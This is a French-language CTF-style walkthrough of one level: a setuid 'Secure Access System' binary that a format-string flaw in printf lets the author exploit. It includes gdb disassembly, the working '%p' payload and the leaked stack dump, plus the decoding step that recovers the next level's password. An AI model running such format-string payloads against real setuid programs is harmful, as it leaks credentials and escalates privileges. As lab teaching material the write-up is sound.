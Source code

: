## Comportement
- J'ai des droits `level02` que je peux vérifier en tapant `whoami`
- Un binaire est présent avec des droits différents : `-rwsr-s---+ 1 level03 users   9452 Sep 10  2016 level02*`
En exécutant le binaire (`./level02`), on observe:
- qu'il attend un username de notre part.
- qu'il attend ensuite un mot de passe peu importe le username.
- qu'il ne segfault pas meme si l'username est tres long.
    ```shell
    ===== [ Secure Access System v1.0 ] =====
    /***************************************\
    | You must login to access this system. |
    \**************************************/
    --[ Username: ufuf
    --[ Password: ii
    *****************************************
    ufuf does not have access!
    ```


## Analyse
En analysant le binaire (`gdb ./level02`) on observe:
- Que le mot de passe que l'on doit fournir est en realite le flag que l'on cherche. Il est stocke dans une variable sur la stack :
    ```shell
    0x0000000000400898 <+132>:	mov    $0x400bb0,%edx # "r"
    0x000000000040089d <+137>:	mov    $0x400bb2,%eax # "/home/users/level03/.pass"
    0x00000000004008a2 <+142>:	mov    %rdx,%rsi
    0x00000000004008a5 <+145>:	mov    %rax,%rdi
    0x00000000004008a8 <+148>:	callq  0x400700 <fopen@plt> # fopen("/home/users/level03/.pass", "r")
    ```
- - Utilisation de `printf()`. Peut etre sujet a faille si mal utilise : par exemple `printf("hello")` est vulnerable alors que `print("%s", "hello")` ne l'est pas. La raison : dans la premiere version, un utilisateur peut y inscrire ce qui sera interprete par printf comme des instructions (`%s`) et il ira chercher dans la stack un parametre qui n'existe pas et nous donnera un beau segfault. C'est un Format String Attack. Dans notre cas, meme pas besoin de segfault, on va directement imprimer la stack a l'ecran et donc le mot de passe. Bingo Bounga.


## Résolution
- On imprime la stack avec `%p`. On peut distinguer, apres les adresses nulles `(nil)`, une sucession d'adresses en memoire qui pourrait correspondre a une variable, soit : `0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d`
```shell
python -c 'print "%p "*30' | ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
0x7fffffffe3d0 (nil) (nil) 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe5c8 0x1f7ff9a08 (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) 0x100000000 (nil) 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d (nil) 0x7025207025207025 0x2520702520702520 0x2070252070252070  does not have access!
```
- Il ne reste plus maintenant qu'a :
    - supprimer les `0x`
    - convertir en ASCII
    - inverser l'endian
    ```shell
    echo -n "4868373452506e7551397361354a414558674e5743717a377358476e68354a354d394b6650673348" | xxd -r -p
    ```
- Il ne reste plus qu'à passer au level03 (`su level03`) en renseignant ce password.
